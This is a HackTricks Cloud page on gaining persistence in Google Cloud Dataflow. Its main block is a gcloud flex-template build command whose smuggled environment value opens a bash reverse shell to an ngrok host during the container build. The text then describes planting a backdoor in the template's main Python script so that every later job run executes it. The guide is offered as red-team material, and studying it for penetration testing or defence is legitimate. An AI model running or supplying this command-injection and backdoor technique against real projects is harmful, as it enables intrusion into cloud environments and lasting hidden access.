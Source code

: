 # GCP - Dataflow Persistence

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* github repos.

</details>

## Dataflow

### Invisible persistence in built container

Following the [**tutorial from the documentation**](https://cloud.google.com/dataflow/docs/guides/templates/using-flex-templates) you can create a new (e.g. python) flex template:

```bash
git clone https://github.com/GoogleCloudPlatform/python-docs-samples.git
cd python-docs-samples/dataflow/flex-templates/getting_started

# Create repository where dockerfiles and code is going to be stored
export REPOSITORY=flex-example-python
gcloud storage buckets create gs://$REPOSITORY

# Create artifact storage
export NAME_ARTIFACT=flex-example-python
gcloud artifacts repositories create $NAME_ARTIFACT \
 --repository-format=docker \
 --location=us-central1
gcloud auth configure-docker us-central1-docker.pkg.dev

# Create template
export NAME_TEMPLATE=flex-template
gcloud dataflow $NAME_TEMPLATE build gs://$REPOSITORY/getting_started-py.json \
 --image-gcr-path "us-central1-docker.pkg.dev/gcp-labs-35jfenjy/$NAME_ARTIFACT/getting-started-python:latest" \
 --sdk-language "PYTHON" \
 --flex-template-base-image "PYTHON3" \
 --metadata-file "metadata.json" \
 --py-path "." \
 --env "FLEX_TEMPLATE_PYTHON_PY_FILE=getting_started.py" \
 --env "FLEX_TEMPLATE_PYTHON_REQUIREMENTS_FILE=requirements.txt" \
 --env "PYTHONWARNINGS=all:0:antigravity.x:0:0" \
 --env "/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/13355 0>&1' & #%s" \
 --region=us-central1
```

**While it's building, you will get a reverse shell** (you could abuse env variables like in the previous example or other params that sets the Docker file to execute arbitrary things). In this moment, inside the reverse shell, it's possible to **go to the `/template` directory and modify the code of the main python script that will be executed (in our example this is `getting_started.py`)**. Set your backdoor here so everytime the job is executed, it'll execute it.

Then, next time the job is executed, the compromised container built will be run:

```bash
# Run template
gcloud dataflow $NAME_TEMPLATE run testing \
 --template-file-gcs-location="gs://$NAME_ARTIFACT/getting_started-py.json" \
 --parameters=output="gs://$REPOSITORY/out" \
 --region=us-central1
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* github repos.

</details>
